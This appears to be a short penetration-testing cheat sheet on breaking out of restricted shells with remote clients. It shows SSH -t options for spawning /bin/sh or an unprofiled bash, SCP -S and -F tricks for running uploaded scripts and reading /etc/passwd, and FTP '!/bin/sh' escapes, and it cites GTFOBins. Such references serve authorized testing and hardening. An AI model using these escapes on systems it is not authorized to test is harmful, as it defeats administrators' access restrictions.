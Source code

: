 # Remote Clients

## 01 - OpenSSH

### 1.1 - SSH

SSH on your machine to execute commands before the shell is loaded.

```
$ ssh [-p <PORT>] <username>@<IP> -t "/bin/sh"
```

Start the shell without loading "rc" profile (where most limits are configured):

```
$ ssh [-p <PORT>] <username>@<IP> -t "bash --noprofile"
```

Try to execute other commands.

```
$ ssh [-p <PORT>] <username>@<IP> <commands>
```

### 1.2 - SCP

SCP: On a box that you control make a simple wrapper script, then upload it:

```
$ cat /tmp/id.sh
#!/bin/sh
/usr/bin/id

$ chmod +x /tmp/id.sh

$ scp /tmp/id.sh untrusted@demobox:
```

Once the file is uploaded, run it with scp:

```
untrusted@demobox ~ $ scp -S /home/untrusted/id.sh x y:
uid=1008(untrusted) gid=1014(untrusted) groups=1014(untrusted)
```

SCP: This options can be used to `cat` certain types of file:

```
$ scp -F /etc/passwd x y:
```



works best in a wrapper

```
$ scp -S /tmp/getMeOut.sh x y:
```

## 02 - FTP

```
$ ftp
ftp> !/bin/sh

ftp> !/bin/bash
```

---
## References

- [GTFOBins: SSH](https://gtfobins.github.io/gtfobins/ssh/)